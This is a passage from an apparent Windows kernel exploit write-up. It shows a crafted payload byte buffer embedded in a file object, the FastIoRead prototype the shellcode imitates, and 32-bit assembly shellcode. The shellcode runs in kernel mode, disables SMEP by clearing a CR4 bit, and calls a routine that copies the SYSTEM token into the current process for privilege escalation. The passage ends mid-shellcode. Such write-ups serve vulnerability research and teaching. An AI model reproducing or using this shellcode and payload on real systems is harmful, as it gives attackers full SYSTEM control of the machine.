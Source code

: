     0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x91, 0x00, 0x52, 0x22,
    0xD2, 0x9F, 0x92, 0xCC, 0x9B, 0x2E, 0x7F, 0x5F, 0xCC, 0xD1, 0x65, 0x0E, 0x36, 0x24, 0x10, 0x98,
    0xBA, 0x4B, 0x76, 0xE6, 0x6C, 0xCE, 0x57, 0x19, 0x16, 0x1B, 0x27, 0x9B, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
{% endhighlight %}
The payload starts in the body of the file object and contains shellcode that matches _FAST_IO_DISPATCH::FastIoRead prototype:
{% highlight C %}
BOOLEAN
NTAPI
FastIoRead(
    _In_ PFILE_OBJECT FileObject,
    _In_ PLARGE_INTEGER FileOffset,
    _In_ ULONG Length,
    _In_ BOOLEAN Wait,
    _In_ ULONG LockKey,
    _Out_ PVOID Buffer,
    _Out_ PIO_STATUS_BLOCK IoStatus,
    _In_ PDEVICE_OBJECT DeviceObject);
{% endhighlight %}
The shellcode executes in kernel mode with CPL=0. It jumps to the procedure that copies pointer to SYSTEM token to the EPROCESS struct of the current process.
{% highlight asm %}
use32

 int3
 call @f
@@:
 pop ecx
 sub ecx, (@b - $$)
 mov eax, cr4
 btr eax, 20
 mov cr4, eax
 call dword [ecx + StealSysToken]
.Exit:
 mov eax,[esp + 1Ch]
 ;mov eax,[esp + 0x20]
 xor edx, edx